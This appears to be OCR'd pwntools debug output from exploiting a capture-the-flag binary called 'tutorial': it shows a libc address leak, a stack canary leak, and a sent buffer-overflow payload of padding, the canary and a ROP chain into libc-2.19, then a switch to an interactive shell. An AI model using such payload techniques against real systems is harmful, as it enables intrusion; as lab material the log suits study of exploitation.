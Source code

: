 ```language-bash
    '>'
[DEBUG] Sent 0x2 bytes:
    '1\n'
[DEBUG] Received 0xa bytes:
    'Reference:'
[DEBUG] Received 0x36 bytes:
    '0x7fad235d3860\n'
    '-Tutorial-\n'
    '1.Manual\n'
    '2.Practice\n'
    '3.Quit\n'
    '>'

Libc Address: 0x7fad23564000


[DEBUG] Sent 0x2 bytes:
    '2\n'
[DEBUG] Received 0x1d bytes:
    'Time to test your exploit...\n'
[DEBUG] Received 0x1 bytes:
    '>'
[DEBUG] Sent 0x1 bytes:
    '\n' * 0x1
[DEBUG] Received 0x144 bytes:
    00000000  0a 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
    00000010  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
    *
    00000130  00 00 00 00  00 00 00 00  00 b1 98 67  90 5d c9 70  │····│····│···g│·]·p│
    00000140  d0 67 2f c1                                         │·g/·││
    00000144

Canary: 0x00b19867905dc970


[*] Loaded cached gadgets for 'tutorial'
[*] Loaded cached gadgets for 'libc-2.19.so'
[DEBUG] Received 0x27 bytes:
    '-Tutorial-\n'
    '1.Manual\n'
    '2.Practice\n'
    '3.Quit\n'
    '>'
[DEBUG] Sent 0x2 bytes:
    '2\n'
[DEBUG] Received 0x1d bytes:
    'Time to test your exploit...\n'
[DEBUG] Received 0x1 bytes:
    '>'
[DEBUG] Sent 0x1a9 bytes:
    00000000  4d 65 6d 65  4d 65 6d 65  4d 65 6d 65  4d 65 6d 65  │Meme│Meme│Meme│Meme│
    *
    00000130  4d 65 6d 65  4d 65 6d 65  00 b1 98 67  90 5d c9 70  │Meme│Meme│···g│·]·p│
    00000140  4d 65 6d 65  4d 65 6d 65  e3 12 40 00  00 00 00 00  │Meme│Meme│··@·│····│
    00000150  04 00 00 00  00 00 00 00  85 88 58 23  ad 7f 00 00  │····│····│··X#│····│
    00000160  00 00 00 00  00 00 00 00  90 fe 64 23  ad 7f 00 00  │····│····│··d#│····│
    00000170  85 88 58 23  ad 7f 00 00  01 00 00 00  00 00 00 00  │··X#│····│····│····│
    00000180  90 fe 64 23  ad 7f 00 00  e3 12 40 00  00 00 00 00  │··d#│····│··@·│····│
    00000190  c3 08 6e 23  ad 7f 00 00  90 a5 5a 23  ad 7f 00 00  │··n#│····│··Z#│····│
    000001a0  77 61 61 61  78 61 61 61  0a                        │waaa│xaaa│·│
    000001a9
[*] Switching to interactive mode
[DEBUG] Received 0x144 bytes:
```